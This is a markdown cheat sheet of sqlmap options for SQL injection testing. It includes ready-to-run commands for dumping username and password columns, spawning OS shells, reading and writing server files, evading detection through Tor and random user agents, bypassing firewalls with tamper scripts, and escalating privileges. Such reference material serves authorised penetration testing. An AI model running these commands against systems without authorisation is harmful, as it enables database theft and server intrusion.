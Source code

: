 ### **Basic Command Structure**
```bash
sqlmap -u <URL> [options]
```

### **Setup and Basics**
- `-u "<URL>"`: Specifies the target URL for SQL injection testing.
- `--data="<POST data>"`: Use this for POST requests; e.g., `--data="username=admin&password=1234"`.
- `--cookie="<cookie string>"`: Adds cookies for sessions or authenticated scans.
- `--level=[1-5]`: Sets the level of tests (default is 1; higher levels add more tests).
- `--risk=[1-3]`: Sets the risk level (default is 1; higher risks may try more intrusive tests).

### **Detection Flags**
- `--batch`: Runs SQLMap without prompts, using default responses.
- `--random-agent`: Randomizes the User-Agent to avoid detection.
- `--tor`: Routes traffic through the TOR network for anonymity.
- `--wizard`: Launches an interactive setup guide (recommended for beginners).
  
### **Testing Injection Points**
- `--technique=<techniques>`: Limits testing to specified SQL injection types (B, E, U, S, T):
  - `B`: Boolean-based blind
  - `E`: Error-based
  - `U`: UNION query-based
  - `S`: Stacked queries
  - `T`: Time-based blind
  ```bash
  sqlmap -u <URL> --technique=BEUS
  ```
  
### **Database Enumeration**
- `--dbs`: Lists all available databases.
  ```bash
  sqlmap -u <URL> --dbs
  ```
- `-D <database_name> --tables`: Lists all tables in a specific database.
  ```bash
  sqlmap -u <URL> -D users --tables
  ```
- `-D <database_name> -T <table_name> --columns`: Lists all columns in a specific table.
  ```bash
  sqlmap -u <URL> -D users -T accounts --columns
  ```

### **Extracting Data**
- `--dump`: Dumps data from all tables and databases.
- `-D <database_name> -T <table_name> --dump`: Dumps data from a specific table.
  ```bash
  sqlmap -u <URL> -D users -T accounts --dump
  ```
- `--dump-all`: Dumps data from all databases (use with caution on larger DBs).

### **Specific Data Extraction**
- `-C "<columns>"`: Specifies columns to extract, used with `--dump`.
  ```bash
  sqlmap -u <URL> -D users -T accounts -C "username,password" --dump
  ```

### **Authentication and Session Management**
- `--auth-type=<type>` and `--auth-cred="<username>:<password>"`: For basic, digest, NTLM, or certificate-based authentication.
- `--proxy=<proxy>`: Uses a proxy for all connections (e.g., `http://localhost:8080`).
- `--proxy-cred="<username>:<password>"`: Adds proxy authentication.
- `--headers="<headers>"`: Adds custom headers, e.g., `--headers="User-Agent: custom"`.
  
### **HTTP Request Methods and Headers**
- `-r <request_file>`: Uses a saved request file (ideal for complex POST requests).
- `--method=<method>`: Specifies HTTP method (e.g., `PUT`, `DELETE`, `HEAD`).
- `--user-agent="<user_agent>"`: Specifies a custom User-Agent string.
- `--referer="<referer>"`: Sets a referer header to mimic common browsing behavior.
  
### **Advanced Techniques and Options**
- `--os-shell`: Attempts to spawn an OS shell (requires high privilege).
- `--sql-shell`: Opens a SQL shell to run custom SQL commands on the database.
- `--file-read=<file_path>`: Attempts to read server files (requires access permissions).
- `--file-write=<local_file>` and `--file-dest=<remote_path>`: Uploads files to the target server.
  
### **Bypassing WAFs and Firewalls**
- `--tamper=<script>`: Uses tamper scripts to modify payloads and bypass filters.
  - Example scripts: `between.py`, `space2comment.py`
  ```bash
  sqlmap -u <URL> --tamper=space2comment.py
  ```
- `--delay=<seconds>`: Adds a delay between requests to avoid detection.
- `--safe-url=<URL>` and `--safe-freq=<freq>`: Re-checks a safe URL between attacks to avoid detection.
  
### **Performance Optimization**
- `--threads=<num>`: Specifies the number of concurrent threads (use cautiously).
- `--time-sec=<seconds>`: Sets the time for time-based injection detection.
  
### **Post-Exploitation**
- `--os-pwn`: Attempts privilege escalation on the operating system.
- `--priv-esc`: Searches for privilege escalation vulnerabilities in the DBMS.
- `--sqlmap-shell`: Provides an interactive SQL shell for advanced commands.
